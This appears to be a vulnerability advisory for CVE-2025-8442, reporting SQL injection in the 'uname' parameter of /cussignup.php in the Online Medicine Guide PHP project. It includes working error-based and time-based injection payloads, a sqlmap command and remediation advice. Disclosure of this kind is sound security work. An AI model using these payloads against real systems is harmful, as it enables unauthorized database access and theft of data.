

# CVE-2025-8442

- 来源仓库：[justconter/cve](https://github.com/justconter/cve)
- Issue：[#1](https://github.com/justconter/cve/issues/1)
- 原始标题：code-projects Online Medicine Guide Project V1.0 /cussignup.php SQL injection

# code-projects Online Medicine Guide Project V1.0 /cussignup.php SQL injection 

# NAME OF AFFECTED PRODUCT(S)

- Online Medicine Guide

## Vendor Homepage

- https://code-projects.org/online-medicine-guide-in-php-css-javascript-and-mysql-free-download/

# AFFECTED AND/OR FIXED VERSION(S)

## submitter

- justconter

## Vulnerable File

- /cussignup.php

## VERSION(S)

- V1.0

## Software Link

- https://code-projects.org/online-medicine-guide-in-php-css-javascript-and-mysql-free-download/

# PROBLEM TYPE

## Vulnerability Type

- SQL injection

## Root Cause

- A SQL injection vulnerability was found in the '/cussignup.php' file of the 'Online Medicine Guide' project. The reason for this issue is that attackers inject malicious code from the parameter 'uname' and use it directly in SQL queries without the need for appropriate cleaning or validation. This allows attackers to forge input values, thereby manipulating SQL queries and performing unauthorized operations.

## Impact

- Attackers can exploit this SQL injection vulnerability to achieve unauthorized database access, sensitive data leakage, data tampering, comprehensive system control, and even service interruption, posing a serious threat to system security and business continuity.

# DESCRIPTION

- During the security review of "Online Medicine Guide",I discovered a critical SQL injection vulnerability in the "/cussignup.php" file. This vulnerability stems from insufficient user input validation of the 'uname‘ parameter, allowing attackers to inject malicious SQL queries. Therefore, attackers can gain unauthorized access to databases, modify or delete data, and access sensitive information. Immediate remedial measures are needed to ensure system security and protect data integrity.

# No login or authorization is required to exploit this vulnerability

# Vulnerability details and POC

## Vulnerability lonameion:

- 'uname' parameter

## Payload:

```makefile
---
Parameter: uname (POST)
    Type: error-based
    Title: MySQL >= 5.6 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (GTID_SUBSET)
    Payload: uname=admin'+(SELECT 0x54797959 WHERE 4767=4767 AND GTID_SUBSET(CONCAT(0x7178627071,(SELECT (ELT(1435=1435,1))),0x717a6b6b71),1435))+'&uemail=admin@qq.com&upass=admin123&umobile=11111111111&uaddress=11111

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: uname=admin'+(SELECT 0x4d7a4f48 WHERE 9380=9380 AND (SELECT 7508 FROM (SELECT(SLEEP(5)))tILM))+'&uemail=admin@qq.com&upass=admin123&umobile=11111111111&uaddress=11111
---
```

## The following are screenshots of some specific information obtained from testing and running with the sqlmap tool:

```bash
sqlmap -u "http:/127.0.0.1/medicine_guide-master/cussignup.php" --data="uname" --batch --dbs
```



# Suggested repair

1. **Use prepared statements and parameter binding:**
   Preparing statements can prevent SQL injection as they separate SQL code from user input data. When using prepare statements, the value entered by the user is treated as pure data and will not be interpreted as SQL code.

2. **Input validation and filtering:**
   Strictly validate and filter user input data to ensure it conforms to the expected format.

3. **Minimize database user permissions:**
   Ensure that the account used to connect to the database has the minimum necessary permissions. Avoid using accounts with advanced permissions (such as' root 'or' admin ') for daily operations.

4. **Regular security audits:**
   Regularly conduct code and system security audits to promptly identify and fix potential security vulnerabilities.
